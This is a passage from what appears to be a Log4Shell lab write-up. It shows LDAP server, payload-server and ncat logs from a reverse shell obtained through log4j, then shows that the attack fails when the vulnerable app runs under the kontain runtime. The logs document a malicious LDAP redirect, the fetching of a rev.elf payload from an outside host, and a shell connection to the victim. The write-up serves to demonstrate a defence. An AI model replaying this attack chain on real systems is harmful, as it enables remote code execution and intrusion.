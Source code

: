 The last line is log4j output, but it called malicous LDAP server.

### Terminal 1 (LDAP)

```
2021-12-29 17:01:39 [LDAPSERVER] >> Send LDAP reference result for 6qzeif redirecting to http://10.100.101.100:8180/ExecTemplateJDK8.class
2021-12-29 17:01:39 [JETTYSERVER]>> Received a request to http://10.100.101.100:8180/ExecTemplateJDK8.class
```

The first line logs the LDAP lookup that injects reference the Java byte code.
The second one fetches the class with the generated byte code.

### Terminal 3 (dial back code server)

```
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
127.0.0.1 - - [30/Dec/2021 00:08:34] "GET /rev.elf HTTP/1.1" 200 -
```

The second like indicates `rev.elf` was retrieved.

### Terminal 4 (ncat)

```
Ncat: Connection from 127.0.0.1:60152.
```

At this point we have access to shell commands in the victim, even if there is no prompt.
Try `ls -l`, `id`, or whatever.

## Flow with kontain

With the victim code in kontain the flow stops at Terminal 3.
To run the victim in konatain, on Terminal 2 step, run

```sh
docker run --runtime=krun --network=host --name vulnerable-app --rm vulnerable-app-kontain
```

The `rev.elf` never gets retrieved.
Nothing connect to ncat either.